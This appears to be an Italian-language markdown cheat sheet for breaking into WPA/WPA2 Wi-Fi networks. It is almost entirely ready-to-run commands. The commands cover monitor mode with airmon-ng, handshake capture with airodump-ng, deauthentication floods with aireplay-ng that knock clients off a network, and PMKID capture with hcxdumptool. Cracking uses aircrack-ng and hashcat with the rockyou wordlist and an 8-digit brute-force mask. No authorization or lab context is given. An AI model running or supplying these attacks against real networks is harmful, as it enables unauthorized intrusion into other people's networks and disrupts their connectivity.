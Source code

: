 # Wi-Fi 
Visualizza scheda di rete 
```
ifconfig
```
oppure
```
ip a
```
Uccidere i processi di interferebilità
avvia scheda di rete in monitor mode
```
sudo airmon-ng check kill
```

```
sudo airmon-ng start wlan0
```
esempio:
erpressa@kali:~# sudo airmon-ng start wlan0
avvia airodump-ng 
```
sudo airodump-ng wlan0mon 
```
copiare bssid e station
premi spazio oppure ctrl + c per terminare 
```
sudo airodump-ng --bssid FF:FF:FF:FF:FF:FF -c 1 -w /home/kali/handshake.cap wlan0mon
```
esempio
```
sudo airodump-ng --<BSSID> -c <CANALE> -w <PERCORSO-FILE> <INTERFACCIA> 
```

scollegare clients a=bssid c=clients
```
sudo aireplay-ng -0 10 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```
oppure 
```
sudo aireplay-ng --deauth 1000 -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF wlan0mon
```
cracking con aircrack-ng 
```

sudo aircrack-ng file.cap -w /home/kali/rockyou.txt
```
hcxdumptool
```
sudo hcxdumptool -i wlan1 -w frames_to_recover_the_psk.pcapng -F --rds=1
```

![Screenshot_20250314_020018](https://github.com/user-attachments/assets/a105cd91-522b-4488-8dd4-29b5c7b6754a)

```
hcxpcapngtool -o hash.hc22000 -E essidlist frames_to_recover_the_psk.pcapng
```
![Screenshot_20250314_015237](https://github.com/user-attachments/assets/eeed436d-d573-4c33-986f-15ea31dcf081)

mantieni solo la linea che ti interessa craccare
```
sudo nano hash.hc22000
```
crack con hashcat
```
hashcat -m 22000 -a 0 hash.hc22000 rockyou.txt
```
Bruteforce 8 numeri

```
hashcat -m 22000 -a 3 hash.hc22000 ?d?d?d?d?d?d?d?d
```









































